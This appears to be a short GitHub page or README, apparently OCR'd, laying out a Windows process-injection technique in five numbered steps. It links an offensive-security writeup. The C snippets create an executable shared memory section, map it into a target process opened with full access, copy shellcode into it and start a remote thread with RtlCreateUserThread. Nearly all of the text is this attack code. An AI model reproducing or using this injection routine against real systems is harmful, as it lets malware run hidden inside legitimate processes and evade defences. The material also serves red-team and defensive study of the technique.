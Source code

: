 [Why duplicate work? iRed.team has a great writeup](https://www.ired.team/offensive-security/code-injection-process-injection/ntcreatesection-+-ntmapviewofsection-code-injection)
<br><br><br>

STEP #1 create a memory section
	fNtCreateSection(&sectionHandle, SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, NULL, (PLARGE_INTEGER)&sectionSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);
	
STEP #2	create a view of the memory section in the local process
	fNtMapViewOfSection(sectionHandle, GetCurrentProcess(), &localSectionAddress, NULL, NULL, NULL, &size, 2, NULL, PAGE_READWRITE);

STEP #3 create a view of the memory section in the target process
	HANDLE targetHandle = OpenProcess(PROCESS_ALL_ACCESS, false, 1480);
	fNtMapViewOfSection(sectionHandle, targetHandle, &remoteSectionAddress, NULL, NULL, NULL, &size, 2, NULL, PAGE_EXECUTE_READ);

STEP #4 copy shellcode to the local view, which will get reflected in the target process's mapped view
	memcpy(localSectionAddress, buf, sizeof(buf));
	
STEP #5 HANDLE targetThreadHandle = NULL;
	fRtlCreateUserThread(targetHandle, NULL, FALSE, 0, 0, 0, remoteSectionAddress, NULL, &targetThreadHandle, NULL);
